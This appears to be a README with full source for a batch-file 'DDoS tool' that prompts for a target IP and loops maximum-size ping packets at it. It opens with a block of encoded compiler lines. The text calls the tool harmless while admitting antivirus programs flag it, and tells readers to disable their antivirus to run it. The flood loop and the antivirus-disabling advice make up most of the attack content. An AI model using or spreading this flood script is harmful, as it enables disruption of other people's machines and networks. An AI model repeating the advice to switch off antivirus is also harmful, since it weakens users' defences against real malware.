 # DDOS-Nzen2
A small DDos program that will (In theory) take down your old 2003 laptop.
It won't harm anyone, nor anything. 
Idk how you would take down a server with this, maybe running multiple instances of it...

Antiviruses DO flag this as a virus/threat, but in reality it's because I have no license with this.
If you do not believe me, just don't run the program!
I mean, It's not like it does anything.

If you do want to run the program, (Maybe benchmark a bunch of chinese off-brand Rasberry-Pie network adapters,
Just disable your antivirus while you run it.




:DOCUMENTATION:
This program was written in batch, and recompiled with BtE.

The first chunk of the code is a segment of the BtE API.
Random UUids coupled with some strings.

Next chunk is the fake loading screen, which I just added to make
the whole thing look more organized.
It echos a started message, (To log.txt) 
and then echos ping localhost, (To log.txt)
then there is a textbook set variable command, (Which then is echoed to log.txt)
and then a few danger messages,
The ddos actually happens.
It will repeat ping requests that will down the shields on your 2003 Arsenal Bird. ;)
BELKA DID EVERYTHING WRONG!!!

Code:

::[BtE Compiler]
::
::YAwzoRdxOk+EWAnk
::fBw5plQjdG8=
::YAwzuBVtJxjWCl3EqQJgSA==
::ZR4luwNxJguZRRnk
::Yhs/ulQjdF+5
::cxAkpRVqdFKZSjk=
::cBs/ulQjdF+5
::ZR41oxFsdFKZSDk=
::eBoioBt6dFKZSDk=
::cRo6pxp7LAbNWATEpCI=
::egkzugNsPRvcWATEpCI=
::dAsiuh18IRvcCxnZtBJQ
::cRYluBh/LU+EWAjk
::YxY4rhs+aU+JeA==
::cxY6rQJ7JhzQF1fEqQJQ
::ZQ05rAF9IBncCkqN+0xwdVs0
::ZQ05rAF9IAHYFVzEqQJQ
::eg0/rx1wNQPfEVWB+kM9LVsJDGQ=
::fBEirQZwNQPfEVWB+kM9LVsJDGQ=
::cRolqwZ3JBvQF1fEqQJQ
::dhA7uBVwLU+EWDk=
::YQ03rBFzNR3SWATElA==
::dhAmsQZ3MwfNWATElA==
::ZQ0/vhVqMQ3MEVWAtB9wSA==
::Zg8zqx1/OA3MEVWAtB9wSA==
::dhA7pRFwIByZRRnk
::Zh4grVQjdCyDJGyX8VAjFB5QRRCNAE+/Fb4I5/jHwfCCrB9QcMYQS8L806CyA+8e+kzocJIb02hmvO8DH1VdZhfL
::YB416Ek+ZW8=
::
::
::978f952a14a936cc963da21a135fa983
@echo off
cls
title DDos Tool Nzen2- Loading
echo Started: >> log.txt
ping localhost >> log.txt
title DDos Tool Nzen2- Press anything to continue
pause
title Waiting input
goto PreAttack

:PreAttack
cls
echo ---Enter Attack IP---
set /p AttackIP= 
Echo Attack IP set to %AttackIP%
echo Attack IP set! >> log.txt
echo IP: >> log.txt
echo %AttackIP% >> log.txt
pause
goto Attacklaunch

:Attacklaunch
cls
echo FINAL CHECK: ARE YOU SURE
pause
title Launcher
goto Attack

:Attack
cls
pause goto DDos

:DDos 
:loop
ping %AttackIP% -l 65500 -w 1 -n 1
goto :loop
